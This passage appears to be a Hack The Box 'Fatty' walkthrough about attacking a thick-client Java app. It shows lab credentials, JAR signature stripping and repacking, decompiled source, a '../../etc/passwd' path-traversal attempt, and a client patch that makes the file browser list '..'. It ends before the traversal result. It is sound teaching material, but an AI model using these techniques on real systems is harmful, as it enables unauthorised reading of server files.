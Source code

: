 # Exploiting Web Vulnerabilities in Thick-Client Applications

2-tier architecture :
Application is installed locally on the computer and communicates directly with the database.

3-tier architecture :
Application is installed locally on the computer, but in order to interact with the databases, they first communicate with an application server, usually using the HTTP/HTTPS protocol.

Security Advantage of 3-tier architecture : 
It prevents the end-user from communicating directly with the database server

Security Disadvantage of 3-tier architecture : 
It can be susceptible to web-specific attacks like SQL Injection and Path Traversal

## Scenario

We have found these files by enumerating FTP server that provides anonymous access :
fatty-client.jar
note.txt
note2.txt
note3.txt

Reading the content of all the text files reveals that:

- A server has been reconfigured to run on port 1337 instead of 8000.
- This might be a thick/thin client architecture where the client application still needs to be updated to use the new port.
- The client application relies on Java 8.
- The login credentials for login in the client application are qtc / clarabibi.

1) Try to connect to server using credentials

--> Failed : Connection Error! 

2) Try while analyzing the traffic with Wireshark

The client attempts to connect to the server.fatty.htb subdomain

3) Add subdomain to hosts file

echo 10.10.10.174    server.fatty.htb >> C:\Windows\System32\drivers\etc\hosts

Inspecting the traffic again reveals that the client is attempting to connect to port 8000.

4) Extract the content of fatty-client.jar

5) Run PowerShell as administrator and use Select-String to search all the files for port 8000

ls fatty-client\ -recurse | Select-String "8000" | Select Path, LineNumber | Format-List

Path       : C:\Users\cybervaca\Desktop\fatty-client\beans.xml
LineNumber : 13

6) Edit the content of the file to set the port 1337

cat fatty-client\beans.xml

<SNIP>
<!-- Here we have an constructor based injection, where Spring injects required arguments inside the
         constructor function. -->
   <bean id="connectionContext" class = "htb.fatty.shared.connection.ConnectionContext">
      <constructor-arg index="0" value = "server.fatty.htb"/>
      <constructor-arg index="1" value = "8000"/>
   </bean>

<!-- The next to beans use setter injection. For this kind of injection one needs to define an default
constructor for the object (no arguments) and one needs to define setter methods for the properties. -->
   <bean id="trustedFatty" class = "htb.fatty.shared.connection.TrustedFatty">
      <property name = "keystorePath" value = "fatty.p12"/>
   </bean>

   <bean id="secretHolder" class = "htb.fatty.shared.connection.SecretHolder">
      <property name = "secret" value = "clarabibiclarabibiclarabibi"/>
   </bean>
<SNIP>

--> The JAR is signed, validating every file's SHA-256 hashes before running. These hashes are present in the file META-INF/MANIFEST.MF

7) Remove the hashes from META-INF/MANIFEST.MF and delete the 1.RSA and 1.SF files from the META-INF directory.

--> The modified MANIFEST.MF should end with a new line

cat fatty-client\META-INF\MANIFEST.MF

Manifest-Version: 1.0
Archiver-Version: Plexus Archiver
Built-By: root
Sealed: True
Created-By: Apache Maven 3.3.9
Build-Jdk: 1.8.0_232
Main-Class: htb.fatty.client.run.Starter

Name: META-INF/maven/org.slf4j/slf4j-log4j12/pom.properties
SHA-256-Digest: miPHJ+Y50c4aqIcmsko7Z/hdj03XNhHx3C/pZbEp4Cw=

Name: org/springframework/jmx/export/metadata/ManagedOperationParamete
 r.class
SHA-256-Digest: h+JmFJqj0MnFbvd+LoFffOtcKcpbf/FD9h2AMOntcgw=
<SNIP>

Modify to :
Manifest-Version: 1.0
Archiver-Version: Plexus Archiver
Built-By: root
Sealed: True
Created-By: Apache Maven 3.3.9
Build-Jdk: 1.8.0_232
Main-Class: htb.fatty.client.run.Starter



8) Update and run the fatty-client.jar

cd .\fatty-client
jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *

9) Double-click on the fatty-client-new.jar file to start it and try logging in using the credentials qtc / clarabibi

--> Login Successful!

10) Foothold

Clicking on Profile -> Whoami reveals that the user qtc is assigned with the user role.
Username : qtc
Rolename : user

Clicking on the ServerStatus : we can't click on any options.

--> There might be another user with higher privileges that is allowed to use this feature

Clicking on the FileBrowser -> Notes.txt reveals the file security.txt > Open

--> This note informs us that a few critical issues in the application still need to be fixed

Navigating to the FileBrowser -> Mail option reveals the dave.txt file containing interesting information

It says that all admin users are removed from the database
It also refers to a timeout implemented in the login procedure to mitigate time-based SQL injection attacks

11) Path Traversal

../../../../../../etc/passwd > Open

The server filters out the / character from the input

Decompile code using  JD-GUI : http://java-decompiler.github.io/

Dragging and dropping the fatty-client-new.jar onto the jd-gui
Save All Sources option in jdgui
Decompress the fatty-client-new.jar.src.zip by right-clicking and selecting Extract files

fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java
if (AccessCheck.checkAccess(methodName, this.user))
      return "Error: Method '" + methodName + "' is not allowed for this user account"; 
    this.action = new ActionMessage(this.sessionID, "files");
    this.action.addArgument(folder);
    sendAndRecv();
    if (this.response.hasError())
      return "Error: Your action caused an error on the application server!"; 
    return this.response.getContentAsString();

The showFiles function takes in one argument for the folder name and then sends the data to the server using the sendAndRecv() call

The file fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java
configs.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String response = "";
            ClientGuiTest.this.currentFolder = "configs";
            try {
              response = ClientGuiTest.this.invoker.showFiles("configs");
            } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
              JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
            } catch (IOException e2) {
              JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
            } 
            textPane.setText(response);
          }
        });

--> We can replace the configs folder name with .. as follows.

ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");

Compile :
javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java

mkdir raw
cp fatty-client-new.jar raw\fatty-client-new-2.jar

mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\

cd raw
jar -cmf META-INF\MANIFEST.MF traverse.jar .

Let's log in to the application and navigate to FileBrowser -> Config option

